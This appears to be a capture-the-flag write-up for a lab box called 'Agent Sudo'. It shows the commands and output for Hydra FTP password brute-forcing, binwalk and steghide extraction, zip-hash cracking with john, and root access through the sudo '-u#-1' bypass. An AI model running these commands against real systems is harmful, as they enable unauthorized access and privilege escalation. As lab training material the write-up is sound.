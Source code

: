 # what I learn
- binwalk
# enumerate
- 21/tcp open  ftp
- 22/tcp open  ssh
- 80/tcp open  http
```
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R 
```
change user-agent: to R (I used burp suite to capture my request -> edit -> forward it)
```
What are you doing! Are you one of the 25 employees? If not, I going to report this incident
```
25 employees? like alphabet? so let start from A
```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R
```
We know that agent C's (chirs) password is weak, and he have something to do with agent J. I try to get page for `user agent: J` not thing pop up..


We know that Chris pass word is weak, let use Hydra to crack FTP.
```console
kali@kali:~$ hydra -f -l chris -P /usr/share/wordlists/rockyou.txt $IP ftp
```
now log in as Chris
```console
kali@kali:~/THM/agent$ ftp $IP
Connected to 10.10.142.53.
220 (vsFTPd 3.0.3)
Name (10.10.142.53:kali): chris
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
```
get all the files !!
```console
kali@kali:~/THM/agent$ cat To_agentJ.txt 
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```
as the message said agent J's login password is somehow stored in the **fake picture**. So I have no choice than try to brute force steghide on the pictures. I found a simple bash script [here](https://gist.github.com/itsecurityco/503970852ac47cd6a3b356590d824a2c) which can be use to brute forcing steghid. copy the script and make it executable (``chmod +x``). Now run the script.

```console
kali@kali:~/THM/agent$ ../../script/steghidebf.sh cutie.png /usr/share/wordlists/rockyou.txt 
Steghide Bruteforce (c) 2017 by Juan Escobar
stegofile: cutie.png
wordlist:  /usr/share/wordlists/rockyou.txt

[+] Information obtained with passphrase: '123456'
steghide: the file format of the file "cutie.png" is not supported.
```
it didnt works... why?
```console
kali@kali:~/THM/agent$ file cutie.png 
cutie.png: PNG image data, 528 x 528, 8-bit colormap, non-interlaced
kali@kali:~/THM/agent$ binwalk cutie.png 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```
ahaaa that what Chris mean with **fake picture**, this file included a zip file. let use `binwalk` to extrack the hidden files.
```console
kali@kali:~/THM/agent$ binwalk -e cutie.png 
kali@kali:~/THM/agent$ ls
cute-alien.jpg  cutie.png  _cutie.png.extracted  To_agentJ.txt
kali@kali:~/THM/agent$ ls _cutie.png.extracted/
365  365.zlib  8702.zip  To_agentR.txt
```
we need password to be able to extract the *.zip*. we will use `zip2john` to convert it to hash format then use `john` to crack it
```console
root@kali:~# zip2john /home/kali/THM/agent/_cutie.png.extracted/8702.zip > /home/kali/THM/agent/zip2john.txt
root@kali:~# john -wordlist=/usr/share/wordlists/rockyou.txt /home/kali/THM/agent/zip2john.txt
```
I got the password and tried to extract the zip it with `xarchiver` but got error. let try with 7z
```console
kali@kali:~/THM/agent/_cutie.png.extracted$ 7z e 8702.zip 

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.utf8,Utf16=on,HugeFiles=on,64 bits,4 CPUs Intel(R) Core(TM) i7-7820HQ CPU @ 2.90GHz (906E9),ASM,AES-NI)

Scanning the drive for archives:
1 file, 280 bytes (1 KiB)

Extracting archive: 8702.zip
--
Path = 8702.zip
Type = zip
Physical Size = 280

    
Would you like to replace the existing file:
  Path:     ./To_agentR.txt
  Size:     86 bytes (1 KiB)
  Modified: 2019-10-29 08:29:11
with the file from archive:
  Path:     To_agentR.txt
  Size:     86 bytes (1 KiB)
  Modified: 2019-10-29 08:29:11
? (Y)es / (N)o / (A)lways / (S)kip all / A(u)to rename all / (Q)uit? A

                    
Enter password (will not be echoed):
Everything is Ok    

Size:       86
Compressed: 280
kali@kali:~/THM/agent/_cutie.png.extracted$ ls
 365   365.zlib   8702  '8702-(1)'   8702.zip   To_agentR.txt
kali@kali:~/THM/agent/_cutie.png.extracted$ cat To_agentR.txt 
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```
use CyberChef magic `QXJlYTUx` -> bas64 -> <password>
```console
kali@kali:~/THM/agent$ steghide extract -sf cute-alien.jpg 
Enter passphrase: 
wrote extracted data to "message.txt".
kali@kali:~/THM/agent$ cat message.txt 
Hi <username>,

Glad you find this message. Your login password is <password>

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```
ssh to the server and get the flag


to another task, you need to use `scp` or `python` toget the picture and image search it in google, (check hint if ya stuck).
# root
sine the room call `Agent sudo`, so far we didnt do anything with sudo yet. and I know a CVE for sudo which effect sudo versions < **1.8.28**. let check version:
```console
james@agent-sudo:~$ sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```
BING GO! read more about it [here](sudovulnsbypass.md). let exploit it:
```console
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~#
```
